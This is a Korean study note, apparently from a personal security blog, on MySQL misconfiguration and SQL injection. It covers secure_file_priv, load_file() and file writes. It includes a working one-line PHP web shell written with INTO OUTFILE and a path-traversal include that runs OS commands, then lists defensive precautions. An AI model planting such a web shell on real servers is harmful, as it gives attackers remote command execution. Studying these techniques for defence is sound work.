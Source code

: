 ```yaml
---
title: "[2025-07-17] DBMS Misconfiguration"
excerpt: "DBMS Misconfiguration 개념 정리 및 우회 방법"

categories:
  - Justice
tags:
  - [SQL Injection]

permalink: /Justice/[2025-07-17] DBMS Misconfiguration/

toc: true
toc_sticky: true

date: 2025-07-17
last_modified_at: 2025-07-17
---
```


## 🦥 본문

### 정의

DB 서버가 보안 원칙에 맞게 구성되지 않아 발생하는 취약점

### Out of DBMS: MySQL

MySQL에서 파일 관련된 작업은 my.cnf 설정 파일의 `secure_file_priv` 값에 영향을 받음

- my.cnf
    
    ```sql
    [mysqld]
    # secure_file_priv = ""   # 미설정. 기본 설정 값으로 설정됩니다.
    secure_file_priv = "/tmp" # 해당 디렉터리 하위 경로에만 접근 가능합니다.
    secure_file_priv = ""     # mysql의 권한이 가능한 모든 경로에 접근이 가능합니다.
    secure_file_priv = NULL   # 기능이 비활성화 됩니다.
    
    mysql> select @@secure_file_priv;
    +-----------------------+
    | @@secure_file_priv    |
    +-----------------------+
    | /var/lib/mysql-files/ |
    +-----------------------+
    ```
    
    - `secure_file_priv` 값은 대체로 `/var/lib/mysql-files/`
- load_file() : 파일 읽고 출력. `secure_file_priv` 가 설정돼야 함. 파일은 전체 경로로 입력해야 하고 접근 권한이 있어야 함.
    
    ```sql
    # echo test1234 > /var/lib/mysql-files/test
    mysql> select load_file('/var/lib/mysql-files/test');
    +----------------------------------------+
    | load_file('/var/lib/mysql-files/test') |
    +----------------------------------------+
    | test1234                               |
    +----------------------------------------+
    ```
    
- into outfile : SELECT INTO 형식을 이용하여 파일이나 웹쉘 작성 가능
    - 웹쉘 삽입 뿐만 아니라 로그 유출, 백업 추출 등에도 악용
    
    ```sql
    SELECT ... INTO var_list             # column 값을 변수에 저장
    SELECT ... INTO OUTFILE  'filename'  # 쿼리 결과의 rows 값을 파일에 저장
    SELECT ... INTO DUMPFILE 'filename'  # 쿼리 결과(single row)를 파일에 저장
    
    mysql> select '<?=`$_GET[0]`?>' into outfile '/tmp/a.php';
    /* <?php include $_GET['page'].'.php'; // "?page=../../../tmp/a?0=ls" */
    ```
    
    - 위의 코드는 웹 쉘 코드 `<?=`$_GET[0]`?>` 를 백틱(`)으로 감싸 OS 명령어로 실행한다. /tmp/a.php 라는 파일로 서버에 저장하는 공격
    - `/tmp/a.php?0=ls` 를 사용하면 ls 명령어를 실행해서 결과를 출력

### 주의 사항

- 권한 문제 주의 사항 : DBMS를 작동할 때에는 DBMS 전용 계정 (nologin)을 만들어서 사용해야 한다. 루트 계정이나 다른 애플리케이션 권한이 탈취되면 큰 문제가 발생.
    - DBMS 내부에도 계정과 권한을 분리해야 한다. 여러 서비스에서 같은 DBMS를 접속할 때, 한 서비스에서 SQLi가발생하면 DBMS 계정으로 타 데이터 베이스에 접근 가능 하기 때문이다.
- 문자열 비교 주의 사항 : 웹 어플리케이션과 DBMS에서 문자열 비교 방식이 다르기 때문에 우회 가능할 수 있다.
    - 대소 문자 구분 우회
    - 공백 문자 탐지 우회
- 다중 쿼리 주의 사항 : PHP Data Objects(PDO)의 query 함수는 다중 쿼리를 지원하지 않고 exec 함수는 다중 쿼리를 실행한다.